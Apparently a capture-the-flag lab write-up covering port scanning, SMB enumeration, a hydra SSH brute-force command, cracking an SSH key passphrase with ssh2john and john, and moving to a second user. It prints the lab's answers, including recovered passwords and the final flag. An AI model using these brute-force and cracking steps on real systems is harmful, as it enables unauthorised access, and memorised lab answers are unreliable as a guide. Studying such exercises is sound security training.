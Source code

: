 # Web App Testing and Privilege Escalation

```
brute forcing
hash cracking
service enum
linux enum
```

## Notes

```
10.10.255.203

Nmap scan report for 10.10.255.203                                                                       │
Host is up (0.41s latency).                                                                              │
Not shown: 994 closed ports                                                                              │
PORT     STATE SERVICE                                                                                   │
22/tcp   open  ssh                                                                                       │
80/tcp   open  http                                                                                      │
139/tcp  open  netbios-ssn                                                                               │
445/tcp  open  microsoft-ds                                                                              │
8009/tcp open  ajp13                                                                                     │
8080/tcp open  http-proxy
```

## Questions

4. User brute-forcing to find the username & password

```
username: connect to smb://$IP and look into staff.txt
password: hydra for ssh with username
```

5. What is the username?

```
jan
```

6. What is the password?

```
hydra -l jan -P /media/nikesh/HDD/Security/wordlist/rockyou.txt 10.10.255.203 -f ssh

armando
```

7. What service do you use to access the server(answer in abbreviation in all caps)?

```
SSH
```

8. Enumerate the machine to find any vectors for privilege escalation

```
use a privilege escalation checklist or tool like LinEnum

```

9. What is the name of the other user you found(all lower case)?

```
staff.txt

kay
```

10. If you have found another user, what can you do with this information?

```
apart from a password, how else can a user access a machine?
ssh key may be
```

11. What is the final password you obtain?

```
use john the ripper to bruteforce the passphrase
/home/kay/.ssh has private ssh keys

copy id_rsa to a file
ssh2john id_rsa > to_crack.txt
john --wordlist=/path/to/wordlist.txt to_crack.txt

kay:beeswax

ssh using jan
and then ssh using -i ~/.ssh/id_rsa kay
cat pass.bak

heresareallystrongpasswordthatfollowsthepasswordpolicy$$

```
